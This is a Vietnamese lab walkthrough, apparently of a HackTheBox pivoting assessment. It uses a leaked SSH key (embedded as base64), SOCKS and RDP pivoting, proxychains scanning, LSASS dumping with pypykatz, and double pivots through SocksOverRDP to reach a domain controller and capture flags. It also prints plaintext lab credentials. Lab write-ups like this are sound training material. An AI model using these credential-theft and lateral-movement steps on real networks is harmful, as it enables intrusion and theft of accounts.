Q1Y0SDdSWUQwTTJqajlJaTFPTmdaeUMvL2oyRFJiRCsKSVh0dS90UURrelpQdkZGdzhqWDdXc2pQ
MkFaVTNJYi9rREJuZmFJNjlBTUVpZmZuZ3hxeGZZMWxpMHdxUFRZS2xXVHVJcwozcGxrNnIwM0FP
S1RQRG1JYlpheE5DcXBaMStKUXh2ZDcxUFFyOEIvays1eHZPUjZSK1VFT0x6WmZyMko2RVlCcWVs
eUliCjRtUHRGaHBDZEdwVmloVWpSNVFkbkhmTDRNSm5yQWxWTWkxZ0VMSEczSFFldE8rR2hSb0w4
ejdOSFZwYWk4azB4UUFrcmIKY1F1U2pqOXNkZlgrZDFMZWRqZ2h1YVQyVzJaRU1jbnh2VGlNZHdG
bE0rcXhxRFpQelFhRHc4bk1Pdm1GZkhOVFZRQ1dwQwpBMFhWa08za21Bb2xReHFjNVBiQXI0MWhs
VWRWS3dBQUFBTUJBQUVBQUFHQUo4R3VUcXpWZm1MQmdTZCt3VjFzZk5tak5PCldTUG9WbG9BOTFp
c1JvVTQrcThaL2JHV3RrZzZHTU1VWnJmUmlWVE9na1d2ZVhPUEU3Rng2cDI1WTBCMzRwclBNWHpS
YXAKRWsrc0VMUGlaVElQRzB4UXIrR1JmVUxWcVpaSTBwejBWY2g0aDFvWlp4UW4vV0xybnkxK1JN
eG9hdWVyeE5LMG5BT004ZQpSRzIzTHprYS94N1RDcXZPT3l1Tm9RdTg5NmVEbmM2QmFwekFPaUZk
VGNXb0xNandBaWZwWW4ydUU0Mk1lYmYrYmppME43ClpMK1dXUElaMHk5MVprM3M3dnV5c0RvMUpt
eFdXUlMxVUxOdXNTU25XTysxbXNuMmNNdzVxdWZnclpsRzZiYmx4MzJtcFUKWEMxeWx3UW1nUWpV
YUZKUDFWT3QrSnJaS0ZBbktaUzFjandlbXRqaHVwK3ZKcHJ1WUtxT2ZRSW5UWXQ5WloyU0xtZ0lV
SQpOTXBYVnFJaFFkcXdTbDVSdWRod3BDKzJ5cm9LZXllQTVPK2cyVmhtWDRWUnhEY1BTUm1VcWdP
b0xnZHZ5RTZyakpPNUFQCmpTMEEvSTNKVHFicjE1dm03Qnl1Znk2OTFXV0hJMUdBNmpBOS81TnJC
cXlBRnlhRWxUOW8rQkZBTEVYWDltMWFhUkFBQUEKd1FETDlNbTl6Y2ZXOFBmK1BqdjBoaG5GL2s5
M0pQcGljbkI5Yk9wd05tTzFxcTNjZ1RKOEZCZy85emw1YjVFT1dTeVRXSAo0YUVRTmczT041L053
UXpkd1pzNXlXQnpzK2d5T2dCZE5sNkJsRzhjMDRrMXN1WHg3MUNlTjE1QkJlNzJPUGN0c1l4REly
CjBzeVA3TXdpQWdyejBYUDNqQ0V3cTZYb0JyRTBVVllqSVFZQTcrb0dnaW9ZMktuYXBWWURpdEU5
OW52MUprWGhnMGp0L20KTVRyRW1TZ1dtcjR5eVhMUlN1WUdMeTBETUdjYUNBNlJwajJ4dVJzZHJn
U3Y1TjB5Z0FBQURCQU9WVkJ0YnpDTmZuT2w2UQpOcFgydnhKK0JGRzl0U1NkRFFVSm5nUENQMnds
dU8vM1RoUHd0SlZGKzd1blFDOHphNGVWRDBuNDBBZ1ZmTWRhbWovTGtjCm1rRXlSZWpRWFFnMUt1
aS9oS0Q5VDhpRnc3a0oyTHVQY1R5dmpNeUFvNGxrVXJtSHdYS01PMHFSYUNvLzZsQnpTaFZsVEsK
dStHVFlNRzRTTkx1Y05zZmxjb3RsVkdXNDRvWXIvNkVtNWxRM28xT2hob0k5MFc0aDNISzhGTHFs
ZERSYlJ4enVZdFIxMwpEQUs3a2d2b2lYelF3QWNkR2hYblBNU2VXWlRsT3VUUUFBQU1FQTFKUktO
K1E2RVJGUG4xVHFYOGI1UWtKRXVZSlFLR1hIClNRMUt6bTAyTzVzUVFqdHh5K2lBbFlPZFU0MStM
MFVWQUsrN28zUCt4cWZ4L3B6WlBYOForNFlUdThYcTQxYy9uWTBraHQKckZIcVhUNnNpWnpJZlZP
RWpNaThITDFmZmhKVlZXOVZBNWE0UzF6cDlkYndDLzhpRTRuK1AvRUJzTFpDVXVkLy9iQmxTcAp2
MGJmakR6ZDRzRkxiVnYvWVdWTEREM0RDUEMzUGpYWUhtQ3BBNzZxTHpsSlAyNmZTTWJ3N1Ribloy
ZHh1bTN3eXhzZTVqCk10aUU4UDZ2N2VhZjFYQUFBQUhIZGxZbUZrYldsdVFHbHViR0Z1WldaeVpX
bG5hSFF1Ykc5allXd0JBZ01FQlFZPQotLS0tLUVORCBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K' | base64 -d > id_rsa
```

```zsh
chmod 600 id_rsa
```

Tiếp theo, tôi đã đăng nhập với ssh key:

```zsh
ssh webadmin@10.129.229.129 -i id_rsa
```


Check `/etc/hosts`


Kiểm tra cấu hình mạng, máy chủ này đang chạy ở dải mạng 172.16.0.0/16


Ở đây tôi nghĩ đã đến lúc ta dùng dynamic port forward thông qua ssh sau đó dùng nmap phát hiện các alive hosts.

```zsh
ssh -D 1080 webadmin@10.129.229.129 -i id_rsa
```

Khuyến khích dùng cách này.
Hoặc dùng pingsweep:

```zsh
www-data@inlanefreight:/home/webadmin$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.025 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=3.23 ms
```

Có 2 hosts từ dải ip hoạt động, đó là
172.16.5.15 (chính là máy chúng ta đang có shell) và 172.16.5.35

Tiến hành kiểm tra 172.16.5.35:

```zsh
proxychains nmap -p 22,3389 -sT 172.16.5.35 -Pn -v
```

Check rdp:

```zsh
proxychains msfconsole -q
use auxiliary/scanner/rdp/rdp_scanner
set rhosts 172.16.5.35
run
[*] 172.16.5.35:3389      - Detected RDP on 172.16.5.35:3389      (name:PIVOT-SRV01) (domain:INLANEFREIGHT) (domain_fqdn:INLANEFREIGHT.LOCAL) (server_fqdn:PIVOT-SRV01.INLANEFREIGHT.LOCAL) (os_version:10.0.17763) (Requires NLA: Yes)
[*] 172.16.5.35:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Kết nối đến máy chủ thông qua rdp và thông tin ta có từ webserver:

```zsh
proxychains xfreerdp3 /v:172.16.5.35 /u:mlefay /p:'Plain Human work!'
```


Chúng ta tạm gọi máy chủ này là SRV-01


Nhẹ nhàng lụm Flag trong ổ C:


Đã đến lúc chơi với LSASS rồi:


Chúng ta có quyền của local admin trên SRV-01:


Đơn giản chúng ta sẽ dump lsass:


Giờ chúng ta sẽ chuyển file về máy tấn công, cách đơn giản nhất là copy file với thư mục chia sẻ thông qua rdp.

Lấy file dump về thông qua rdp:

```zsh
proxychains xfreerdp3 /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /drive:linux,/home/kali/Desktop/learning/pivoting/skill-assetment/pivot-srv-01/share
```

Tại Network -> \\\tsclient\linux copy dump file vào đây.


Trích xuất thông tin với pypykatz:

```zsh
pypykatz lsa minidump lsass.DMP > ../lsass_dump.txt
```


Tìm thấy mật khẩu dạng plain text của user vfrank:


Hmm máy chủ này còn thuộc một dải mạng nữa là `172.16.6.0/24` sau khi chúng ta check qua ipconfig trên SRV-01:


Kiểm tra các alive hosts:

```powershell
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"
```


Host 172.16.6.35 chính là chỗ chúng ta đang đứng, còn lại cái chúng ta cần nghiên cứu là 172.16.6.25 và 172.16.6.45

Do ta biết rằng máy chủ Client tiếp theo là windows, vậy chúng ta phải set up double pivots thông qua rdp.

Đưa tài nguyên cần thiết vào thư mục share:


Trên SRV01:


Tiếp theo chúng ta tiến hành set up để  pivot: Đầu tiên import .dll, RDP đến máy trung  gian, chạy SocksOverRDP-Server.exe trên máy trung gian, về SRV01 chạy và config Proxier, RDP sang máy đích DC01.

```powershell
regsvr32.exe SocksOverRDP-Plugin.dll
```


RDP đến 172.16.6.25:


Lụm nhẹ cái Flag:


Trở lại SRV01 ta cấu hình cho Proxier:



Copy SocksOverRDP-server.exe sang PIVOTWIN10 và chạy dưới quyền admin:


Quay lại SRV01 RDP sang DC01 172.16.6.45

Flag cuối cùng ở đây:


Lụm nhẹ cái Flag:


Đây  là cấu trúc loots/tool cần thiết:

```zsh
❯ tree .
.
├── creds
├── DC01
│   └── Flag.txt.txt
├── pivot-srv-01
│   ├── Flag.txt
│   ├── lsass_dump.txt
│   └── share
│       ├── lsass.DMP
│       ├── ProxifierPE.zip
│       └── SocksOverRDP-x64.zip
├── PIVOTWIN10
│   └── Flag.txt
└── webserver
    ├── backup
    └── id_rsa

6 directories, 10 files

❯ cat creds
mlefay:Plain Human work!
vfrank:Imply wet Unmasked!

```